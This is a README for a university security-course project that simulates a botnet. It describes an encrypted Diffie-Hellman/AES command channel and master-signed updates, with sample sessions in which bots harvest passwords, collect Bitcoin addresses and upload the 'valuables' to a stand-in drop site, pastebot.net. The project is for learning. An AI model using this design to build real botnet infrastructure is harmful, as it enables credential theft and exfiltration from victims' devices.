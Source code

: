 # Defeating SkyNet

This project specifically looks at botnets: how they work, why they're valuable 
and why it's so difficult to defeat them. Almost every device with a CPU in it has 
been connected to the internet. Whilst this is a stunning advance for hummanity,
the security for these devices has come as an atferthought or not at all. 
Millions of computers and devices, all with valuable information and processing 
power are left vunerable to attack.

It is important to note that his project is intented for learning purposes only, 
it is not an operational botnet nor do we intend to create one. It has been 
created to help gain an understanding in how practical a massive cyber attack is 
and how complex it can be to defend against it.

Please note, that the premise of this project has been taken from the UTS subject 
'Fundamentals of Security'.

Project Part 1: Security Essentials
===================================
Part one of the project aims to secure the channel through which the bots (of the
botnet) communicate. Using the exchange of a shared secret through Diffie-Hellman,
messages sent between the bots are encrypted using a symmetric AES cipher. Further,
methods to prevent replay attacks and ensure message integrity have been implemented
within the code. The files implementing the aforementioned methods include; lib/comms.py,
and dh/_init_.py. Some use cases of the code can be found below.

Solo Bot Operation: Mining, Harvesting and Downloading files
-----------------------------------------------------------
```
bot1@botnet[code]$ python3.2 bot.py
Listening on port 1337
Waiting for connection...
Enter command: mine
Mined and found Bitcoin address: 3pWw3v08MJO7lDyzXXQ68e0i5enL
Enter command: harvest
Found user pass: ('Bob', 'pmiMFK')
Enter command: download hello.signed
Stored the received file as hello.signed
Enter command: list 
Files stored by this bot: hello.signed 
Valuables stored by this bot: ['Bitcoin: 3pWw3v08MJO7lDyzXXQ68e0i5enL', 'Username/Password: Bob pmiMFK'] 
Enter command: upload secrets 
Saved valuables to pastebot.net/secrets for the botnet master 
Enter command: exit 
```

P2P Bot Communication: Exchanging Files
---------------------------------------
#### Bot 1
```
bot1@botnet[code]$ python3.2 bot.py 
Listening on port 1337 
Waiting for connection... 
Enter command: download hello.signed 
Stored the received file as hello.signed 
Enter command: list 
Files stored by this bot: hello.signed 
Valuables stored by this bot: [] 
Enter command: p2p upload hello.signed 
Finding another bot... 
Found bot on port 1337 
Sending hello.signed via P2P 
```
#### Bot 2
```
bot2@botnet[code]$ python3.2 bot.py 
Port 1338 not available 
Listening on port 1337 
Waiting for connection... 
Enter command: list 
Files stored by this bot: 
Valuables stored by this bot: [] 
Accepted a connection from ('127.0.0.1', 36381)... 
Waiting for connection... 
Receiving hello.signed via P2P 
Stored the received file as hello.signed 
Enter command: list 
Files stored by this bot: hello.signed 
Valuables stored by this bot: [] 
```

P2P Bot Communication: Echo
--------------------------------------------
(Note: Requires two bots running at the same time)

```
bot1@botnet[code]$ python3.2 bot.py 
Port 1337 not available
Listening on port 1338
Waiting for connection...
Enter command: p2p echo
Original data: b'ECHO'
Encrypted Data: b'\x00\xfe\xdd^\xb8\x98 ...'
Sending packet of length 96
Echo> Hi there!
Original data: b'Hi there!'
Encrypted Data: b'Q\x18\xf1\xb8|\x86\x ...'
Sending packet of length 112
Receiving packet of length 112
Encrypted Data: b'\x9bi\xbcw#o ...
Original data: b'Hi there!'
Echo> exit
Original data: b'exit'
Encrypted Data: b'_\xa5P\xcc\xf3\xdc ...'
Sending packet of length 96
Receiving packet of length 96
Encrypted Data: b'\xd4\x1f.:\xcd\xea ...'
Original data: b'exit'
Enter command: exit
```

Project Part 2: Protecting the castle
=====================================
Part two of the project implements authentication procedures (signing) for 
verifying updates from the master and ensuring that valuable secrets stored on 
‘pastebot.net’ are only accessible by the botnet master. The files enforcing these
security aspects include; lib/files.py, master_view.py and master_sign.py. 
Some use cases of the code can be found below.

Master Viewing Secrets
----------------------
#### Bot
```
bot1@botnet[code]$ python3.2 bot.py 
Listening on port 1337 
Waiting for connection... 
Enter command: mine 
Mining for Bitcoins... 
Mined and found Bitcoin address: 1kfRSGOKX8t2jPviL1DwQEu3Kd17l 
Enter command: mine 
Mining for Bitcoins... 
Mined and found Bitcoin address: 34PvZLVfodFkw0ipkCcbAl95HPcz40BKdD2 
Enter command: upload secrets 
Saved valuables to pastebot.net/secrets for the botnet master 
Enter command: exit 
```
#### Master
```
master@botnet[code]$ python3.2 master_view.py 
Which file in pastebot.net does the botnet master want to view? secrets 
Bitcoin: 1kfRSGOKX8t2jPviL1DwQEu3Kd17l 
Bitcoin: 34PvZLVfodFkw0ipkCcbAl95HPcz40BKdD2 
```

Master Signing Updates
----------------------
#### Master
```
master@botnet[code]$ python3.2 master_sign.py 
Which file in pastebot.net should be signed? hello.fbi 
Signed file written to pastebot.net/hello.fbi.signed 
```
#### Bot
```
bot1@botnet[code]$ python3.2 bot.py 
Listening on port 1337 
Waiting for connection... 
Enter command: download hello.fbi 
The file has not been signed by the botnet master 
Enter command: download hello.fbi.signed 
Stored the received file as hello.fbi.signed 
Enter command: list 
Files stored by this bot: hello.fbi.signed 
Valuables stored by this bot: [] 
Enter command: exit 
```
